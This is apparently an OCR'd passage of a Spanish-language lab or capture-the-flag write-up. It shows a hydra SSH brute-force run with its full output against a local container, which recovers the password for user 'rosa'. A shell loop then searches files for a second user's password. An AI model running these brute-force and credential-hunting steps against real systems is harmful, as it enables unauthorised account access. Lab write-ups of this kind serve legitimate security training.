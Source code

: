 Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p aprendemos ssh://172.17.0.2 -t 64 -F 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-20 09:48:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 462.00 tries/min, 462 tries in 00:01h, 8295036 to do in 299:15h, 21 active
[STATUS] 427.33 tries/min, 1282 tries in 00:03h, 8294220 to do in 323:30h, 17 active
[STATUS] 370.71 tries/min, 2595 tries in 00:07h, 8292911 to do in 372:51h, 13 active
[STATUS] 292.47 tries/min, 4387 tries in 00:15h, 8291121 to do in 472:29h, 11 active
[22][ssh] host: 172.17.0.2   login: rosa   password: aprendemos
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 10:11:37


```

**usuario : rosa**
**contraseña: aprendemos**

YA ESTAMOS COMO ROSA
# ESCALADA PRIVILEGIOS

Vemos un montón de directorios dentro del directorio **-** y por el script que hay, vemos que alguno tendrá contra, vamos a ver cual :

```bash
rosa@11d358f6ef48:~/-$ cat script.sh 
#!/usr/bin/bash

for i in {1..50}; do
    for j in {1..50}; do
        if [[ -f "./buscaelpass$i/archivo$j" ]] && [[ $(cat "./buscaelpass$i/archivo$j") != "xxxxxx:xxxxxx" ]]; then
            echo "$i$j"
        fi
    done
done
rosa@11d358f6ef48:~/-$ ./script.sh 
3321
rosa@11d358f6ef48:~/-$ cat ./buscaelpass33/archivo21
pedro:ell0c0
```
